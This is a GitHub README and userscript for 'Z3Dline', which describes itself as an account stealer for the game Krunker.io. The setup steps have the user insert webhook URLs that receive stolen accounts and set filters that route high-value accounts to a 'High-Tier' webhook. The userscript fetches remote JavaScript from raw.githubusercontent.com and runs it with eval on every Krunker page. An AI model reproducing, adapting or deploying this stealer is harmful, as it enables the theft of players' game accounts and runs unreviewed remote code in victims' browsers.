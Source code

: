 # Z3Dline

An improved version of PTWline stealer for Krunker.io.

# Usage

- Replace the `LO_WEBHOOK_URL` and `HI_WEBHOOK_URL` with your own webhook URLs.
- You can also change the `HI_FILTER` to set which accounts will go to the High-Tier Webhook. ONLY ACCOUNTS MATCHING ALL THE FILTERS WILL BE SENT TO THE HIGH-TIER WEBHOOK.

```js
// ==UserScript==
// @name         Z3DLine
// @description  Krunker Account Stealer
// @version      1.0.0
// @author       z3db0y
// @match        *://*.krunker.io/*
// @icon         https://www.google.com/s2/favicons?sz=64&domain=krunker.io
// @grant        none
// @run-at       document-start
// ==/UserScript==

const LO_WEBHOOK_URL = '';
const HI_WEBHOOK_URL = '';
const HI_FILTER = {
    lvl: 0,
    kr: 0,
    kdr: 0,
    nukes: 0,
    accuracy: 0
};

let xhr = new XMLHttpRequest();
xhr.open('GET', 'https://raw.githubusercontent.com/z3db0y/Z3Dline/main/dist.js', false);
xhr.send();
eval(xhr.responseText);
```